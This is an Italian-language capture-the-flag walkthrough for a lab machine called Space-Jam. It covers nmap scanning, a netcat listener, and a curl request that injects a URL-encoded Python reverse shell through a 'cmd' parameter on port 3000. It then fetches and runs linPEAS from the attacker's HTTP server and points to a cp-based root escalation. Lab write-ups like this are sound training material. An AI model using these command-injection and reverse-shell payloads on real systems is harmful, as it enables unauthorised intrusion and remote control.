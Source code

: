 # Space-Jam
## ENUMERAZIONE
partiamo con uno scan della macchina

```bash
nmap Spacejam.thm -sV -sC 
```

troviamo cosi la porta 3000 aperta(se non la trovate lanciate questo comando
```bash
nmap Spacejam.thm -sV -p-
```
## NETCAT
mettiamoci in ascolto su una porta aperta da noi
```bash
nc -lvnp 4444
```

mandiamo una richiesta alla porta 3000 con una reverse shell
```bash
curl "Spacejam.thm:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<ilvostroip>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"
```

ecco la nostra shell sul primo terminale
## privesc
mettiamo linPEAS sulla macchina (scaricatevelo prima!!)

apriamo un server http sulla nostra macchina dove è contenuto linPEAS
```bash
python -m http.server 80
```

facciamo una richiesta sulla shell ottenuta prima tramite questo comando
```bash
wget http://ipvostro/linPEAS.sh
```

## PRIVILEGE ESCALATION
diamogli i giusti permessi
```bash
chmod +x linPEAS.sh
./linPEAS.sh
```

ecco la nostra vulnerabilità sul comando cp usiamo GTFO.BINS per capire che comando eseguire e siamo root

